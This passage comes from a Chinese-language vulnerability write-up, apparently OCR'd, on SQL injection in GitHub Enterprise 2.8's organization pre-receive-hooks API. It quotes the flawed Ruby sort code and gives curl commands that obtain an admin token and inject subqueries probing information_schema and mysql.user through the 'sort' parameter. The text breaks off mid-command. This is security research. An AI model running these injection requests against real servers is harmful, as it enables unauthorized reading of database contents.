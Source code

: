 尽管在Rails中已经有内建的ORM（ActiveRecord）来防止SQL注入，但是却存在许多的滥用导致可能存在SQL注入。更多的例子你可以参考[Rails-sqli.org](http://rails-sqli.org/)，这对于学习Rails的SQL注入很有帮助。在本例中，如果我们控制了order方法的参数，我们就可以注入我们的恶意payload到SQL语句中。

现在，就让我们进一步跟进，sorted_by在/data/github/current/app/api/org_pre_receive_hooks.rb的第61行中被调用：

```
10   get "/organizations/:organization_id/pre-receive-hooks" do    
    11     control_access :list_org_pre_receive_hooks, :org =&gt; org = find_org!
    12     @documentation_url &lt;&lt; "#list-pre-receive-hooks"
    13     targets = PreReceiveHookTarget.visible_for_hookable(org)
    14     targets = sort(targets).paginate(pagination)
    15     GitHub::PrefillAssociations.for_pre_receive_hook_targets targets
    16     deliver :pre_receive_org_target_hash, targets
    17   end
    ...
    60   def sort(scope)
    61     scope.sorted_by("hook.#`{`params[:sort] || "id"`}`", params[:direction] || "asc")
    62   end
```

可以看到params[:sort]作为参数被传入到scope.sorted_by中，因此，我们可以注入我们的恶意payload到params[:sort]。在触发该漏洞前，我们需要一个合法的access_token来访问API，幸运的是，我们可以通过以下命令来获取到：

```
$ curl -k -u 'nogg:nogg' 'https://192.168.187.145/api/v3/authorizations'     
    -d '`{`"scopes":"admin:pre_receive_hook","note":"x"`}`'
    `{`
      "id": 4,
      "url": "https://192.168.187.145/api/v3/authorizations/4",
      "app": `{`
        "name": "x",
        "url": "https://developer.github.com/enterprise/2.8/v3/oauth_authorizations/",
        "client_id": "00000000000000000000"
      `}`,
      "token": "????????",
      "hashed_token": "1135d1310cbe67ae931ff7ed8a09d7497d4cc008ac730f2f7f7856dc5d6b39f4",
      "token_last_eight": "1fadac36",
      "note": "x",
      "note_url": null,
      "created_at": "2017-01-05T22:17:32Z",
      "updated_at": "2017-01-05T22:17:32Z",
      "scopes": [
        "admin:pre_receive_hook"
      ],
      "fingerprint": null
    `}`
```

一旦获取到了access_token，我们就可以通过以下方式来触发漏洞了：

```
$ curl -k -H 'Accept:application/vnd.github.eye-scream-preview'     
    'https://192.168.187.145/api/v3/organizations/1/pre-receive-hooks?access_token=????????&amp;sort=id,(select+1+from+information_schema.tables+limit+1,1)'
    [
    
    ]
    
    $ curl -k -H 'Accept:application/vnd.github.eye-scream-preview' 
    'https://192.168.187.145/api/v3/organizations/1/pre-receive-hooks?access_token=????????&amp;sort=id,(select+1+from+mysql.user+limit+1,1)'
    `{`
      "message": "Server Error",
      "documentation_url": "https://developer.github.com/enterprise/2.8/v3/orgs/pre_receive_hooks"
    `}`
    
    $ curl -k -H 'Accept:application/vnd.github.eye-scream-preview' 
```